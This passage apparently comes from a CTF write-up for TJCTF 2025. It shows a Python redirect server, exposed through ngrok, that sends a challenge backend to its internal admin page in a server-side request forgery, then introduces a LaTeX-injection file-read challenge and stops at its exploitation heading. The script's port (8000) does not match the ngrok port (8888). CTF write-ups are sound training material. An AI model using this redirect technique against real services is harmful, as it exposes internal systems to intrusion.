 ```python
from http.server import BaseHTTPRequestHandler, HTTPServer

class RedirectHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        self.send_response(302)
        self.send_header('Location', 'http://localhost:5000/admin')
        self.end_headers()

if __name__ == '__main__':
    server = HTTPServer(('0.0.0.0', 8000), RedirectHandler)
    print("Redirect server running on http://localhost:8000")
    server.serve_forever()
```

`~$ ngrok http 8888`

I submitted the ngrok URL to the CTF challenge, and the backend followed the redirect to the internal admin page, which gave me access to the flag:


![](https://github.com/jonathann403/jonathann403.github.io/blob/main/content/posts/TJCTF2025/Pasted%20image%2020250608190121.png?raw=true)

## Challenge: `web/TeXploit` – 303 Solves

This challenge presented a **LaTeX Snippet Compiler** that rendered user-supplied LaTeX code. These types of challenges often involve **code injection** or **file disclosure** through LaTeX’s lesser-known I/O capabilities.

### Challenge Summary

- The web app allowed users to submit LaTeX code for compilation.
- There was no sandboxing or obvious input filtering.
- The goal was to read the contents of `flag.txt`, presumably located in the root directory (`/flag.txt`).
### Exploitation
